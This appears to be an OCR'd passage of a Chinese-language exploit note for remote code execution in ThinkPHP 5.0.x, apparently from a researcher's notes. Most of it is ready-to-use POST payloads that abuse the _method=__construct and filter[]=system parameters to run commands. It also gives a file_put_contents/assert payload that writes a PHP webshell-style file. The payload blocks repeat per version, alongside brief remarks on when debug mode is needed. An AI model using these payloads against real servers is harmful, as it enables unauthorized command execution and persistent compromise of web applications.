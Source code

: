 默认debug=false，debug无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.12
默认debug=false，debug无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.13
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

# 版本和DEBUG选项的关系
5.0.13版本之后需要开启debug才能rce，为什么？比较一下5.0.13和5.0.5版本的代码

https://github.com/top-think/framework/compare/v5.0.5...v5.0.13#diff-d86cf2606459bf4da21b7c3a1f7191f3
